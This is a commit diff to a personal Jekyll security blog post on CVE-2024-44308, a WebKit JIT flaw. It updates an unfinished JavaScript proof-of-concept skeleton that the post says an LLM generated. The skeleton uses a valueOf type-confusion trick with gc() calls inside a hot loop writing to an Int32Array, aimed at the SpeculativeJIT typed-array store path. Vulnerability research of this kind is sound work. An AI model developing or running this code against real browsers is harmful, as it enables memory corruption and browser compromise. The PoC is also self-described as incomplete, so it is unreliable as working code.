

Before and after one commit to l33d0hyun/l33d0hyun.github.io, a Jekyll site: the page built from _posts/2024-12-01-CVE-2024-44308.md, in a window 1280 px wide and 1400 px high, scrolled down 2028 px. Shown: the whole window, without its empty margins (208-1049 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; before the commit the page ends 3024 px from its top, so only the background shows below that.

Commit message:
Update_CVE-2024-44308

````diff
--- a/_posts/2024-12-01-CVE-2024-44308.md
+++ b/_posts/2024-12-01-CVE-2024-44308.md
@@ -67,21 +67,41 @@ index 356d52b21a120..d041b63e8ba98 100644
 
 ## Proof-of-Concept (Unfinished)
 - This is not a fully developed PoC, but it allows us to reach the functions we need to trigger: `SpeculativeJIT::compilePutByValForIntTypedArray` and `getIntTypedArrayStoreOperand()`.
+- This skeleton code is the code generated by `LLM (Large Language Model)`.
 
 ```js
 var ab = new ArrayBuffer(8);
-var ibuf = new Int32Array(ab);
+var arr = new Int32Array(ab);
+
+const confuser = {
+    valueOf() {
+        gc();
+        if (this.flag) {
+            return {x: 0x41414141};
+        }
+        return 0x1234;
+    },
+    flag: false
+};
 
 function jitMe(arr) {
-for(let i = 0; i < 1000000; i++) {
-    arr[(i & 0xffff)] = (i & 0xff);
-}
-return arr;
+    let x = 0;
+    for(let i = 0; i < 10000; i++) {
+        if(i % 100 === 0) {
+            confuser.flag = !confuser.flag;
+            x = confuser;
+        } else {
+            x = i & 0xff;
+        }
+        arr[(i & 0xffff)] = x;
+    }
+    return arr;
 }
 
 for(let i = 0; i < 100; i++) {
-jitMe(ibuf);
+    jitMe(arr);
 }
+jitMe(arr);
 ```
 
 - The complete PoC code will be updated once it is finalized.
````
